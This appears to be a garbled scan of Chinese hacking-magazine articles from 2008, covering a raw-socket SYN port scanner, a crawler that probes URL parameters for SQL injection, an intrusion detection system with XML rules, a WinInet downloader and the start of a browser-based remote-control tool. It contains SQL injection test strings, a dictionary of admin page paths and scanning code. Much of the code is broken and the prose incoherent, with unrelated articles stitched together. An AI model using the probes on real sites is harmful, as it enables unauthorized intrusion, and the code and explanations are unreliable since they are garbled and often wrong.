对于发送部分，我们需要对发送的套字`sockraw`进行设置，通过`IP_HDRCL`选项，对应IP头部。

```c
bool opt = true;

ErrorCode = setsockopt(sockraw, IPPROTO_IP, IP_HDRCL, &opt, sizeof(opt));
```

接下来我们需要对对应的IP头部和TCP头部写入，目的端口和校验由于发送都不相同，而是在环境中发送限制包含包，感兴趣的读者可以查阅，这部分内容较多。


# PROGRAMMING ANALYSE

标准校验和本地更新，将头部和TCP头部填充到缓冲区进行发送。

```c
for(DEST_PORT=DEST_START; DEST_PORT<=DEST_END; +++){

    tcp_header->th_dest=htons(DEST_port);

// 目的端口

// 计算校验和，计数器结束时使用 TCP校验和

    memcpy(memoryBuf, &tcp_header, sizeof(tcp_header));

    memcpy(memoryBuf + sizeof(tcp_header), &ip_header, sizeof(ip_header));

    tcp_header->th_sum = checksum(memoryBuf, sizeof(tcp_header));

// 计算IP和

    memcpy(memoryBuf, &ip_header, sizeof(ip_header));

    memcpy(memoryBuf + sizeof(tcp_header), &tcp_header, sizeof(tcp_header));

    ip_header->check_sum = checksum(memoryBuf, sizeof(ip_header));

}
```

```c
// SYN/ACK - 接收一个连接请求
if(tcphdr->th_flag == ACK) {
    printf("收到%d的请求\n", tcphdr->th_port);
    return;
}
```

现在我们接收连接请求，连接的主要任务是接收对主机的IP，并判断其ACK、RESET的状态，此时部分已经经历了一个`DecodeHeader`处理，现在需要的是接收连接`sockListen`，使得它可以接收所有数据，我们先将接收socket通过绑定到指定的地址，之后使用`setsockopt`设置`SO_RECVADDR`，使得网卡变成连接状态，以便接收所有数据，具体代码如下：

```c
// 发送连接

nError = sendto(sockfd, data, length, 0, (struct sockaddr *)&addr, addrlen);
```

```c
sockfd = bind(sockfd, (struct sockaddr_in *)&addr, sizeof(addr));
```

```c
dwBuffer[1];ndLen = sizeof(dwBuffer);

dwBufferReturned = 0;

nError = WSAsockopt(sockfd, sockListen, SO_RECVADDR, &dwBuffer, &dwLen, NULL);
```

到为止，函数的部分已经全部完成了，接下来我需要创建一个连接并并行接收对方主机发来的响应包。

为了方便接收，我们需要创建一个包含函数`DecodeHeader`对接收到的数据进行分析，判断ACK标志位是否正确。

```c
void DeCodeHeader(char *buf, int len){

    IP_HEADER *ip_header;

    TCP_HEADER *tcphdr;

    unsigned short ip_len;

    ip_header = (IP_HEADER *)buf;

    ip_len = (unsigned short)(ip_header->ip_hl) * 4;

    tcphdr = (TCP_HEADER *)(buf + ip_len);

}
```

```c
// 接收来自IP

if(tcphdr->th_src_addr != addr.sin_addr) return;

if(tcphdr->th_flag != 2) return false;
```

接下来我们通过一个for(;)循环使用`recv()`函数数据来接收对方发送的响应包，这样，我们可以在数据中使用`CreateThread()`函数完成整个线程的调度。

最后，我们还需要做一些处理，比如我们面对的远端服务器的处理、异常的处理以及扫描完成后结束套字的等待等。这时，我们的整个SYN扫描器就能扫描该主机的结果，图3是程序扫描该主机的结果，还不吗？

# PROGRAMMING ANALYSIS

具体的描述如下：


步骤1：向网站的首页(Root URL)发送HTTP请求，对返回的html进行分析，提取第一个可能的URL，把它们放入`ArrayList`中，并标记为“未处理”。`K=1`。
步骤2：从`ArrayList`中遍历所有标记为“未处理”的`ArrayList`项，从首页将此项标记为“已处理”，对每个URL进行处理，检查是否包含敏感信息；最后对每个URL发送HTTP请求，提取出可能的URL，选择并在`ArrayList`中加入`ArrayList`。
步骤3：如果`ArrayList`中还有未处理的项，则程序继续搜索，到列表为止。

在页面的处理可以使用多线程，检测数据的可以交给线程去，主线程继续处理所有未处理的项。
在处理节点时，使用多线程测试的方法，使用一个特殊的可指定的锚点来处理页面渲染，包含了隐藏的数据库属性和对的名称，例如：`index_admin,index_asp,admin_def,admin_asp,admin/manage_asp,admin/login,manage_asp,manage_index_asp,index_manage_asp`。利用这些字典可以隐藏的锚点进行性测试。

### 从HTML源码中提取所有URL

第一个问题的解决是，如何从网站的HTML源码中提取所有URL。首先向网站发送请求，这个请求需要明确的URL以及所使用的请求的方法(GET/POST)。

```go
public string GetHttpResponse(string url, string method)

{

    WebRequest request = new WebRequest(url);

    request.Method = method;

    // ...

}
```

在处理返回的HTML源码时，可能会遇到一个URL可以作为网页内容出现，这时就是程序提取该URL后，进行加工，转换成绝对路径的URL。
我的方法使用定义的URL正则来查找全部URL并将其转换为相对链接。
我常用的URL作为例子是：`http://www.abc.com/ghi/jkl.asp?id=123`，我把URL分成了下面的三个部分：

- 1)`http://www.abc.com/`, 出现0次1次，正则表达式为“`([A-Za-z0-9._-]+)/`”

```go
wr.ContentType = "application/x-www-form-";

wr.ContentLength = 0;

re = "";

try {

    WebResponse result = wr.GetResponse();
```


```csharp
    Stream stream = result.GetResponseStream();

    byte[] buffer = new byte[512];

    int bytes = stream.Read(buffer, 0, buffer.Length);

    re = Encoding.GetString(buffer, 0, bytes);

    while (bytes > 0) {

        // 如果没有编码，默认使用UTF-8编码方式。

        // Encoding encoding = System.Text.Encoding.GetEncoding("gb2312");

        Encoding.GetString(buffer, 0, bytes);

    }

}
```

当有了返回的HTML源码后，接下来的步骤是提取其中的所有URL，并放到列表中。
属性方法：在返回的HTML源码中查找属性，例如：`href="http://www.abc.com/ghi/jkl.asp?id=123"`这个方法可以避免简单点，首先是提取的URL是绝对路径，也可能是相对路径，通过通过正则表达式来判断，比如对于每个URL都是相对路径，最后只找到一个URL，如果已经结束了就不想要了。

```csharp
catch (Exception e) {

    return e.Message;

}
```

# PROGRAMMING ANALYSIS

2) `def;`出现一次或多次，正则表达式为

```regex
/^\(\w+\)/^\(.*?\).*
```

3) `jkl.asp?id=123`，正则表达式为

```regex
/^\(\w+\)/^\(.*?\)\^\(.*?\).*

/^\(([A-Za-z0-9\-_]{1,})_\w+\))))*

/^\(([A-Za-z0-9\-_]{1,})_\w+\))))*/
```

`example.php?id=4 and 1=#2`

字符串“与测试：`http://www.xxx.com/example.php?id=4 and 1=#2`
测试用例的符号被用于第一个字符串，而对第二个字符串的符号将被视为“#”正则，避免了SQL语句中后引号的执行。当然可以使用无符号“#”的测试用例。
字符串“与测试（无符号测试）：`http://www.xxx.com/example.php?id=4 and 1=#2`

综合起来，URL的正表达式如下所示：

```csharp
string regex = new RegExp(pattern, RegexOptions.IgnoreCase);

MatchCollection m = regex.Matches(url);
```

之后我们把找到的每一个URL一次替换，将相对路径转换成绝对路径的绝对都替换掉。这种方法是避免了传统的漏洞点不遗漏，灵活，扩展性强。

另外还有一个考虑，在提取URL时，如果路径不是站点的URL，则还需要进行编码和解码。例如如果URL中已经包含了“`http://www.xxx.com/example.php?id=1`”，如果提取了“`http://www.xxx.com/example.php?id=2`”，那么这个URL就需要再通过解码函数处理。

# 如何判断一个页面是否“可敏感”

从页面返回出的数据，这里是否是URL的参数？SQL注入的知识告诉我们，一个页面是否敏感有两种情况：如果是提交的参数在页面中输出了，这两种情况都是敏感的，任一一种情况下都显示出该页面的含义。

敏感页面会把用户输入的数据显示出来，这些字符在页面中被简单的显示出来。对于网页的测试用：

- 字符串“与测试：`http://www.xxx.com/example.php?id=4 and 1=#2`
- 字符串“与非测试：`http://www.xxx.com/example.php?id=4 and 1=#2`

敏感页面将把用户输入的数据显示出来，为了“抛出”这对符号，可以使用加号符号的方法来进行渗透。
字符“与与实测试：`http://www.xxx.com/`

正常的文本获取得到的返回不是一个敏感的信息，而是来自数据库的信息，这可能是Web服务器的或者是开发的反馈，而这些信息对于攻击者来说是危险的，所以过滤敏感信息的过滤是安全的。

最简单的方法是在直接在页面加上一个SQL注入对返回的URL参数进行查看。返回的SQL的内容是否包含某些敏感信息的字段。

例如，如果数据库错误显示开启了，在发送SQL请求后我们会看到如下的错误信息

* Microsoft Database Engine 90000014

我们可以知道如何使用Access数据库，并且通过SQL语句连接到数据库，而不是通过ODBC。

产生如下的输出信息

```text
Microsoft OLE DB Provider for SQL Server: 90000014

字符，终止了未指定的语句。
```

到如何知道是连接后台使用的是SQL Server数据库。

APACHE服务器的错误信息显示开启了，在执行语句中没有找到“MYSQL”关键字：

```text
Database error: SQL select * from news,news

MySQL error: 1064 (You have an error in your SQL syntax; check the manual corresponds to your MySQL server version for the right syntax near line '0:39 at line 1') Session failed.
```

或者

```text
Warning: mysql_fetch_array() argument is not a valid_result resource in f:\www\search.php

php-on-line 925
```



# PROGRAMMING ANALYSIS

则判定数据库为`my_sql`。

### 检查参数是否包含导致导致露信息

```csharp
public Boolean CanSensitive(String unity) {

    Boolean CanSensitive = false;

    String HtmlCode_Url_with_com = GetResponse(unity + "@Database error)(Microsoft.DatabaseEngine.Provider.MySQL)(Error in sql statement)");

    Regex r = new Regex(CanSensitive, RegexOptions.IgnoreCase);

    Match m = r.Match(HtmlCode_Url_with_com);

    if (m.Count > 0) {

        CanSensitive = true;

    }

    return CanSensitive;

}
```



# 工具调试使用

我自己编写了一个工具，然后用调试发现还有漏洞，把所有的网页都扫描出来，真是太神奇了！如图所示。在进行扫描时，使用的工具在相同平台上的效果是不一样的，所以我主要还是为了使用多线程，因为单线程扫描可能会不存在，所以使用多线程扫描可以缩短完成的时间。杂志中附有本次漏洞的SQL注入调试程序，源代码已经写好了，大家查看适合读者：编程爱好者前置知识VC

# 原始封装实现网络


# 网站扫描工具

漏洞问题应该看到。另外由于开发时间长，只修改了版，还要不断改进。

## 检测系统

网络入侵检测系统(IDS)是安全管理的重要设备之一。各大厂商都有自己的产品，如太阳、绿色的天融、TOPS等。我认为除了2006年获得亚洲安全的SNORT之外，其他的网络入侵系统都昂贵，而且部署麻烦。IDS适用于较大的内网环境，大多数的企业等。在安全管理过程中发现网络环境有很多入侵检测系统的需求，比如大型网络环境，因为入侵检测系统昂贵，且容易部署。核心入侵系统中检测到一些事情`www.hacker.com` 2006年08月28日 16:

# PROGRAMMING ANALYSIS

若没有树木结构时，定位到某个节点，而不能定位到网络上。在这种情况下可能无法将数据发送到网络中，找到某个节点后使用连接。例如：Sniffer、Wireshark等工具。抓包工具用于分析，但不是专业的安全分析工具具有很大的局限性。安全依靠自己从网络获取的数据分析，如果要防止安全事件发生，则需要工程方法来实现IDS（入侵检测）的功能。为了解决这个问题，我们需要明确一个IDS的目标，然后根据这些目标设计：

1. 基于Windows系统，方便部署和使用，安装完成后即可方便笔记本电脑携带到桌面
2. 适用于公司网络，扩展无域网实现网络监控和防护
3. 对于不同的安全事件匹配IDS规则，只需捕获样本，可以通过定义规则对检测功能进行修改和升级
4. 流量层对于TCP或UDP具有所有数据包
5. 深度检测TCPUDP载荷，即获取数据的内容
6. 实时检测，对于网络流量达到MBPS的网络服务器
7. 有简单的日志功能，记录保存所有事件

如果我们的IDS达到了上述目标，那么我们在日常管理过程中遇到的问题得到有效解决。WinSocket建立接包层，WinCap提供了强大的网络捕获接口，它是用于应用程序的。在服务器上安装WinCap组件，使得IDS正常工作，并且设计的环境中不需要额外的接口。因此我们利用接包层获取数据包。

## 防御模型

Common Intrusion Detection Framework (CIDF)是经典的IDS标准，所有的IDS产品都是按照这个模型设计开发的。它包括一个方法检测安全事件：

- 事件产生器（Generators）
- 事件分析器
- 响应单元（Response Units）
- 数据库

事件产生器产生流量检测分析，在我们的IDS中，它是对于网络传输的数据包检测。建立一个通过内核捕获的所有数据包，从数据层开始分析，根据获取的流量数据进行匹配，包括数据包和系统中的规则。如果匹配数据是一组数据包，产生一次攻击事件。输出单元在匹配成功时检测安全事件，生成相应的输出事件，其输出将触发报警、发送日志、记录安全事件。对于用户需要保存的事件记录，以便查询和处理。根据CIDF模型对我们的IDS进行模块化设计，如图所示。


在Windows环境下，复杂的开发使用VC++，使用自己的API增强IDS开发，为后续的IDS程序提供了便利。IDS的主要功能就是网络数据包捕获。在Windows环境下实现捕获有多种方法：一种就是WinCap，一种是使用网卡。网卡的工作模式有两种：一种是监听式的，只能接收网卡地址和广播的数据；另一种是混杂式的，它将获取所有收到的数据包。由于网络入侵检测必须接收到的数据包是混杂的，然后通过网卡设备的流量镜像发送到操作系统，使得系统内核和应用能够处理所有数据包。

Windows我们将使用原始Socket来接收数据进行检测匹配的方法。要使用原始Socket，我们在程序中加入WindowsSocket头文件`#include <winsock2.h>`。普通的Socket连接复杂得多，建立原始Socket的步骤如下：

攻击特征捕获的数据包在格式上是一段非连续的字符串，由于传统的模式匹配对数据流分析是不够灵活，这种方法计算效率很大。每秒要匹配多少次？攻击特征每秒数据包次数等于攻击特征次数；如果攻击特征长度大于20字节，数据包长度大于20字节，那么每秒数据包次数为3000，数据包长度为3000，那么每秒匹配次数为20*3000*3000=7200000000次，这个计算是CPU所难以承受的。

- 1) 初始化一个原始Socket：

```cpp
socket = socket(AF_INET, SOCK_RAW, IPPROTO_IP, FLAG_OVERLAPPED);
```

和建立原始Socket的不同的是，`WSASocket`函数的第二个参数是`SOCK_RAW`，表示Socket类型是原始Socket。

- 2) 获取本机IP地址并绑定数据：

```cpp
SOCKADDR_IN in;

LocalIP = GetLocalIP();

in.sin_family=AF_INET;

in.sin_port=htons(0);

bind(socket,(sockaddr*)&in,sizeof(in));
```

- 3) 用`WSASocket`把数据包设置为ICMP：

```cpp
WSASocket(socket, 1, IPPROTO_ICMP, &wsaData, NULL, 0);
```

# 攻击特征的分析

匹配攻击特征在原始Socket中的关键步骤是查找特征字符串，主要过程包括如下：

- 1) 分析网络上的每一个数据包是否具有攻击特征
- 2) 从数据包的包含中攻击特征匹配
- 3) 如果匹配成功，则检测到了一个攻击特征
- 4) 如果没有匹配，则从数据包中重新开始匹配
- 5) 如果检测到攻击特征在数据包中的所有特征都匹配，一次攻击特征匹配
- 6) 如果只有一个攻击特征，等待第二个的匹配

```cpp
typedef struct ip_header {

	unsigned char version_ihl;

	unsigned char tos;

	unsigned short total_len;

	unsigned short id;

	unsigned short flags_offset;

	unsigned char ttl;

	unsigned char proto;

	unsigned short check;

	unsigned int src_addr;

	unsigned int dest_addr;

};
```

接收到一个数据包的字节流后，我们先把它们拷贝到一个指针内存中，然后将其转换成IP头部。在程序中显示`struct ip_header *ip`;

`ip->proto;` // 获取一个数据包中的协议类型

UDP 数据，则在数据段的头部包含一个UDP 头部。

TCP和UDP的头部结构可以用C语言描述如下：

```c
typedef struct tcp_header // TCP 头部

    unsigned short sourcePort;

    unsigned short destPort;

    unsigned int seqNum;

    unsigned int ackNum;

    unsigned char dataOff;

    unsigned char flags;

    unsigned short window;

    unsigned short checksum;

    unsigned short urgptr;

} TCPHeader;

typedef struct udp_header // UDP 头部

    unsigned short sourcePort;

    unsigned short destPort;

    unsigned short packetSize;

    unsigned short checksum;

} UDPHeader;
```

由于在数据包结构中，TCP头部和UDP头部的偏移位置在IP头部之后，对于TCP和UDP，头部偏移是IP头部的长度。我们可以对TCP和UDP头部进行分层处理，将头部偏移后的位置作为规则的起始地址。对于TCP，头部是`TCPHeader* tHeader = (TCPHeader*)pHeader`；对于UDP，头部是`UDPHeader* uHeader = (UDPHeader*)pHeader`。

把数据包拆分为TCP部分和UDP部分，就可以确定每个数据包的TCP和UDP头部，用于后续的检测工作。这种方法简化了许多复杂的任务，对于TCP和UDP的头部，这些数据已经包含了一层的TCP和UDP数据。对于HTTP、FTP等协议，我们只需要对它的实现即可，其实不需要进行分析，这种结构化的分析可以按照字段顺序拆分字段提取了很多字段，从而构造一个通用的规则，就不需要在不需要的情况下进行解析，极大地提高了检测效率并降低了CPU的工作量。

## 检测UDP攻击的规则

检测到特定的UDP攻击的头部，IDS规则在读取头部后，根据头部的数据和定义的规则进行快速匹配，达到检测攻击的行为。XML是用于检测规则的特有格式，因此我们的程序使用XML来定义规则，以下是一条检测UDP攻击的规则，张锡2008的完整规则体。

```xml
<rule>

  <proto>udp</proto>

  <src>any</src>

  <dst>any</dst>

</rule>
```


检测到规则目标中的一个XML元素后，如果符合规则定义的XML元素的属性、匹配一条规则；根据规则的属性，要检测规则的地址，如果是特定的IP，则匹配规则=`"src"`值=192.168.1.188,192.168.188.163；如果不匹配该地址，则匹配规则=`"dst"`值=192。如果匹配了要检测的地址，则使用目的IP地址进行过滤，或者端口号的匹配方式，例如：匹配规则=`"port"`值=23，匹配掩码=255.255.255.0，则匹配该规则用于检测目的的端口。

检测值的掩码是255.255.255.0，匹配该规则用于检测目的的地址。的检测值和掩码，匹配规则，用于检测目的的端口。检测值是从0到65535的一个整数，匹配规则用于检测目的的地址。

如果匹配规则用于检测源的地址，检测值表示数据包源的地址，它的值可以是整数、字符串或IP。如果匹配规则用于检测目的的地址，检测值表示数据包目的的地址，它的值可以是整数、字符串等。

这个目的是为了检测网络中的流量，某些规则使用`offset`值，可能是位置设置的值，其值为某些身份，用于检测数据的`id`值，某些攻击规则可能会被设置特定的值，以达到检测的效果。这里的某些规则触发了特定的攻击的`id`值为31331，`dsize`用于检测TCP和UDP头部的长度。

`www.hacker.com`

张锡 2008年 网络安全 108

## 编程分析

`payload_length`，用于TCP数据的`flags`，用于`flags`的值，2seq用于检测TCP数据的`seqno`，用于TCP数据的`ack`，Windows用于检测特定的端口号，用于检测数据的关键字，它是检测的规则，每个规则可以有多个内容规则，每个规则的定义可以使用正则表达式类型或OS的属性来定义，它能够匹配特定的关键字，例如检测TCP数据的`payload`，它可以用明文表示，也可以用十六进制的表示来表示一组复杂的字符，则用字符的十六进制格式作为关键字字符串，它应该把它们“或”“或”连接在一起，比如长度为4字节的字段，例如‘0000000’。在同一个规则中检测TCP窗口中的偏移量，例如`offset2`用于检测TCP数据中的偏移量，`offset4`用于检测起始的开始，`offset2`用于检测位置，例如比指定为2字节的第2个字节的偏移量在`offset2`之后出现，或者用时间字段表示数据大小，`flags`字段显示数据大小的`msg`，当检测到规则时，IDS的报警信息，我们使用的规则列表，表示在字符串中的关键字，使用字符串的方法来提取和获取XML的内容，我们使用`MARKUP`标记来提取XML的值，具体的实现方法是利用HTML中有详细的标识符，由于不是本示例的考虑，就不再进行过滤。

IDS程序初始化时，首先要读取规则，在程序中可能需要保存这些规则的值：

```c
typedef struct {
    int proto;
    char *source;
    long long seqno;
    char *attack;
    char *mask;
    long long intmask;
    char *port;
    char *direction;
    char *data;
    char *payload;
    int flags;
    long long flagsmask;
    long long ackmask;
    int window;
    Cstring msg;
    ContentRule contents[100];
    bool activity;
};
```

> `Rule`:

用`ContentRule`内容[100]用于存放规则节点，它是一个结构体，定义如下：

```c
typedef struct {
    Cstring content; //存放关键字
    int offset; //用于payload偏移
    int flags; //用于payload标志位
    int direction; //在字符串中查找关键字
    bool match; //规则匹配成功
} Rule;
```

我们定义一个结构体`Rule rules`，使用`loadrule("rule")`函数来解析(1000)条XML规则读入到结构体中，读入规则，IDS检测数据包内容。

## 基于IDS的流量分析

基于IDS的流量工作是抓获数据包，并和规则进行比较，在程序中具体的实现就是抓取数据包的头部和读取规则的内容，我们在抓抓获数据包后，在`checkdata`函数中实现这个过程。

由于IDS的规则检测TCP和UDP数据包，所以在`checkdata`函数中使用TCP和UDP进行解析，对`checkdata`中的字符串取出头部，然后结果为`PROTO_IP`或`PROTO_UDP`，将两个过程和规则进行匹配，这就达到了简单分析的目的。

程序项包含IP地址和`window`字段进行比较，然后根据规则定义的字段包含数据包的TCP头部或IP头部的字段进行比较，这个比较是局次的，在处理后，程序项包含字段定义的规则字段，这就是实现IDS数据包检测的关键。

查找关键字的字符串实际上是在数据包的字符串中查找关键字，标准函数在字符串中查找关键字的方法是`strstr`，所以可以使用`\0`的字符串来表示一个字符串的结尾，那么在字符串处理函数中查找该数据包，我们不需要++的字符串类。

`memcmp`是一个标准库函数，它的功能是把两个字符串，比较`\0`的内容进行比较匹配，我们通过这个函数对字符串进行比较，实现在字符串中查找关键字，该该函数的具体实现如下：


©2008 博客书出版社 版权所有第109

# PROGRAMMING ANALYSIS

IDS程序显示报的时候，我们还需要它把警报写入一个文件`alert.txt`，记录这些事件，作为安全数据库，达到安全事件的目的。特定的攻击流量具有特征，如果IDS能够识别精确特征，就能发现网络中发生的攻击，通过检测`checksum`字段中定义的`checkdata`函数来实现，在数据段上下查找某些字符串，搜索包大小、测量量、偏移量，这种方法能够更好地描述特征，减少IDS对攻击流量的漏报，并且提高了检测效率。

测试程序在编译过程中产生了特定的文件：`rule.txt`，将来比较程序，通过Snort的规则将结果写入`rule.txt`，我们抓取到虚拟机上，双击启动，IDS包含每个包流量偏移为0，长度为4，也可以用`payload`函数查找关键词如下：

## 总结

使用多线程函数，代码所示。


| 下载速度 | 进度 |
| --- | --- |
| 30.2 KB/s | 61% |

## 实时下载进度

使用WinInet实现，代码如下：

```cpp
int CDownloadProgress::InternetFile(HWND hWnd, CString strUrl, CString fileName) {
    DWORD dwFlags;
    InternetConnectState(&dwFlags, 0); // 获取当前连接状态
    CHAR strAgent[64];
    sprintf(strAgent, "Agent%d", time(0)); // 获取时间
    time_t startTime = time(NULL);
    HINTERNET hOpen = NULL;
    if (dwFlags & INTERNET_CONNECTION_PROXY) {
        hOpen = InternetOpen(strAgent, INTERNET_OPEN, NULL, NULL, NO_PROXY);
    } else {
        hOpen = InternetOpenA(strAgent, INTERNET_OPEN, NULL, NULL, NO_PROXY);
    }
    if (!hOpen) {
        MessageBox("连接失败");
        return -1;
    }
    DWORD dwSize;
    CHAR *szAccept = "Accept:";
    if (!InternetConnect(hOpen, NULL, 0, NULL, 0, 0)) {
        MessageBox("连接失败");
        return -1;
    }
    CHAR *szUrl = "http://www.example.com/file.zip";
    if (!InternetOpenUrl(hOpen, szUrl, NULL, 0, INTERNET_FLAG_PRAGMA_NOCACHE | INTERNET_FLAG_RELOAD)) {
        MessageBox("不能打开URL!");
        return -1;
    }
    if (!File::Open(fileName, CFile::modeCreate | CFile::modeWrite)) {
        MessageBox("不能打开的文件!");
        return -1;
    }
    HINTERNET hFile;
    DWORD dwBytesToRead = 0;
    DWORD dwSizeOffset = 4;
    DWORD dwBytes = 0;
    HttpQueryInfo(hConnect, HTTP_QUERY_CONTENT_LENGTH, HTTP_QUERY_FLAG_NUMBER, (LPVOID)&dwBytesToRead, NULL);
    dwBytesToRead = 0;
    DWORD start; // 记录时间
    DWORD end;
    DWORD time;
    int nPos;
    CString tempString;
    time = 10;
    start = GetTime();
    do {
        if (!InternetReadFile(hConnect, 16384, &dwBytes)) {
            AfxMessageBox("文件下载完毕");
            file.Close();
            return -1;
        }
        if (dwBytes == 0)
            break;
        size += dwBytes;
        FileWrite(tempString, dwBytes);
        dwBytes = 0;
        if (dwBytes < dwBytesToRead) {
            tempString.Format("%d%%", (dwBytes * 100) / dwBytesToRead);
        }
        nPos = (dwBytes * 100) / dwBytesToRead;
        SetDlgText(IDC_PERCENT, tempString);
        float speed = 0; // 计算速度
        speed = (float)dwBytes;
        speed = speed / ((float)time / 1000);
        speed = speed / 1024;
        tempString.Format("%.2f KB/s", speed);
        TRACING(INFO);
    } // 下面的进度条将显示，请参考 SHOWINFO
    SHOWINFO-pshowinfo=SHOWINFO;
    pshowinfo->strSpeed.Format("%.2f KB/s", speed);
    showinfo->nPos = nPos;
    AfxMessageBox("下载完成", MB_OK);
    end = GetTime();
    time = end - start;
    if (time == 0)
        time = 10;
    file.Close();
    InternetCloseHandle(hOpen); // 关闭句柄
    return 0;
}
```

这个函数的后半部分解释一下。`SHOWINFO`是一个自定义的结构，用把速度和进度给界面显示进度，定义如下：

传递信息的方式是通过`PostMessage`，在这样的中使用`MSG_PROGRESS`的一个自定义消息，它的响应函数是`OnStep`，在其中处理进度的实现，代码如下：

```cpp
struct SHOWINFO {
    CString strSpeed;
    int nPos;
};
```

```cpp
LRESULT CALLBACK DownloadProgress(WPARAM lParam, LPARAM lParam) {
    CString strSpeed = ((SHOWINFO*)lParam)->strSpeed;
    int nPos = ((SHOWINFO*)lParam)->nPos;
    delete (SHOWINFO*)lParam;
    CString strPercent;
    strPercent.Format("%d%%", nPos);
    SetDlgText(IDC_PERCENT, strPercent);
    SetDlgText(IDC_PERCENT_TEXT, strSpeed);
    if (nPos == 100) {
        GetDlgItem(IDC_DOWNLOAD)->EnableWindow(TRUE);
        AfxMessageBox("下载成功！", MB_OK);
    }
    return 0;
}
```

函数`InternetGetFile`在单独的线程中调用，其线程的是在“下载”按钮点击事件中，为了防止阻塞下载，代码如下：

```cpp
void DownloadFile(OnDownload) {
    // TODO: Add your control notification handler code
    CString url, filename;
    GetDlgText(IDC_FILE_URL, url);
    GetDlgText(IDC_LOCAL_DIRECTORY, filename);
    if (url.IsEmpty()) {
        AfxMessageBox("请输入需要下载的URL!");
        return;
    }
    if (filename.IsEmpty()) {
        AfxMessageBox("请输入需要保存的文件名!");
        return;
    }
}
```

# PROGRAMMING ANALYSIS

```cpp
// 下面代码我最熟悉了。下文
DOWNINFO* pDownInfo=new DOWNINFO;
pDownInfo->hWnd=m_hWnd;
pDownInfo->url=url;
pDownInfo->filename=filename;
GetDlgItem(ID_DOWNLOAD)->EnableWindow(FALSE);
GetDlgItem(ID_IDOK)->EnableWindow(FALSE);
AfBeginThread(DownProc,(LPVOID)pDownInfo);
```

```cpp
{
    HWND hWnd=(DOWNINFO*)pDownInfo->hWnd;
    CString url,filename;
    url=(DOWNINFO*)pDownInfo->url;
    filename=(DOWNINFO*)pDownInfo->filename;
    if(InternetGetFile(url,filename,URL_NO_NEW_FILE)) {
        AfxMessageBox("下载成功!");
        return 0;
    } else {
        AfxMessageBox("下载失败!");
        return 0;
    }
}
```

上面代码中的`DOWNINFO`是一个自定义结构体，用它向新线程传递字符串、URL 和文件名，定义如下：

```cpp
struct DOWNINFO {
    HWND hWnd;
    CString url;
    CString filename;
};
```

`DownProc`是一个回调函数，它的函数结构参数序列已经我们定义好，函数内容如下：

```cpp
UINT CDDownloadProgress::DownProc(LPVOID pDownInfo);
```

适合者：编程爱好者

前置知识：C

## B/S模式

远程控制

作者/天涯诗人


对于B/S模式，不能先说C/S和B/S是当今世界开发技术领域的两大主流技术，C/S客户端是客户端和服务器模式，目前大多数应用程序系统都是Client/server形式的架构。它是系统架构的核心，可以通过灵活地扩展所需环境的优势，完美结合Client和Server的分层，降低了通信的开销。

B/S模式浏览器和服务器，它是互联网技术的尖端。C/S模式通过各种变化或改变连接来实现。在这种模式下，用户工作流是通过浏览器实现的，绝大部分业务连接在浏览器（Browser）实现，但是业务逻辑在服务器（Server）实现，形成三层-tier架构。大大的客户端部署减少了系统维护和升级的成本和工作量，这种模式就是B/S模式。

C/S模式的远程控制就是插件，像极桌面，以及PSCHAER，黑域，则运行在本地的浏览器插件中，都是C/S模式下开发的优秀的远程控制软件、B/S的远程控台也有，局外的内存操作yyc发的`vmtsvc2.X`，这也是方面


成功的当然，B/S更多是采用嵌入式语言的，这方面我不太熟悉了。不需要说了，今天我们就来写写手来实现B/S模式下的远程控制了。

首先选择开发语言，服务端(Server)在监听80端口，并启动程序监控Web服务器的状态，等待客户端发送请求，使用`Socket(Client)`作为客户端，通过TCP/IP协议与服务端通信。发送HTTP请求，由客户端发送请求，服务端处理请求后，并将结果发送给客户端，浏览器处理结果后就会以窗口的形式显示出来。在开始写处理程序之前，我们先来看看这两个函数：

### HTTP请求的结构：把服务器接收到的HTTP请求解析参数

```c
sock = socket(AF_INET, SOCK_STREAM, 0);
char buffer[1024];
len = recv(sock, buffer, sizeof(buffer), 0);
```

### HTTP响应的结构：把响应数据打包

```c
sock = socket(AF_INET, SOCK_STREAM, 0);
connect(sock, (struct sockaddr *)&addr, sizeof(addr));
send(sock, "GET / HTTP/1.1\r\nHost: example.com\r\n\r\n", 42, 0);
```

### 服务端处理逻辑：根据客户端发送的HTTP请求返回对应的响应

```c
sock = socket(AF_INET, SOCK_STREAM, 0);
bind(sock, (struct sockaddr *)&server, sizeof(server));
listen(sock, 5);
client = accept(sock, (struct sockaddr *)&client, &len);
```

这里只需要知道在请求 `.html` 这个页面好了，的请求暂时不处理了。接下来的函数是：

```c
char *flash = "/* */";
int char(MAXATSIZE) = 0;
char *get = strstr(buffer, "GET:", 4);
```

由于只需要接收HTTP请求的数据，作为处理逻辑的正常在现在显示出来，用上面的代码发送的HTTP请求打包发送，服务端接收到的请求后收到的数据就是响应的数据，我们需要收到的数据处理一下。

由于这个程序需要获取 `GET` 的内容，先来看看下一个请求的例子，下面是一个客户端请求发送服务器时的数据包：

```http
GET /login.html HTTP/1.1
Host: example.com
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
```

有了这两个函数后，很多问题就处理好了。发送HTTP请求和处理返回的请求都确定好了，下面的服务端/远程控制的实现就是和C/C++一样，服务端使用`Socket`监听80端口，代码如下：

```c
WSADATA wsa;
WSAStartup(MAKEWORD(2,2), &wsa);
socket(AF_INET, SOCK_STREAM, 0);
bind(sock, (struct sockaddr *)&server, sizeof(server));
